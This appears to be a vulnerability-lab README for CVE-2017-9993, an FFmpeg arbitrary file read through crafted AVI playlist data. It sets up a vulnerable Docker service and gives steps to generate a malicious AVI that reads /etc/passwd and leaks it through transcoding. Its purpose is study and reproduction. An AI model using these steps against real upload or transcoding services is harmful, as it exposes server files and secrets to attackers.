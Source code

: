 # FFmpeg AVI Arbitrary File Read (CVE-2017-9993)

[中文版本(Chinese version)](README.zh-cn.md)

FFmpeg is a free and open-source software project consisting of a suite of libraries and programs for handling video, audio, and other multimedia files and streams.

FFmpeg 2.4.x before 2.4.14, 2.8.x before 2.8.12, 3.0.x before 3.0.9, 3.1.x before 3.1.9, 3.2.x before 3.2.6, and 3.3.x before 3.3.2 does not properly restrict HTTP Live Streaming filename extensions and demuxer names, which allows attackers to read arbitrary files via crafted playlist data.

This issue was featured in PHDays conference 2017, and it is actually an incomplete fix for [CVE-2016-1897](../CVE-2016-1897/). FFmpeg officially patched file reading and SSRF vulnerabilities in m3u playlists. However, by crafting malicious AVI files, similar vulnerabilities still exist in the playlist, leading to CVE-2017-9993.

References:

- <https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/>
- <https://github.com/neex/ffmpeg-avi-m3u-xbin>
- <https://www.anquanke.com/post/id/86337>

## Environment Setup

Execute the following commands to build and start the environment:

```
docker compose up -d
```

After the server starts, it will listen on port 8080. Visit `http://your-ip:8080/` to access the application, the application is a simple video player that allows users to upload and play videos.

## Vulnerability Reproduction

First, download the exploit tool and generate a malicious payload:

```bash
# Clone the exploit repository
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# Generate payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

Upload the generated `exp.avi` file at `http://your-ip:8080/`. The backend will attempt to transcode your uploaded video using FFmpeg. During this process, due to the arbitrary file read vulnerability, the file content will be embedded in the transcoded video:

![](1.png)

You can also execute `docker compose exec web bash` to enter the environment and test FFmpeg directly.
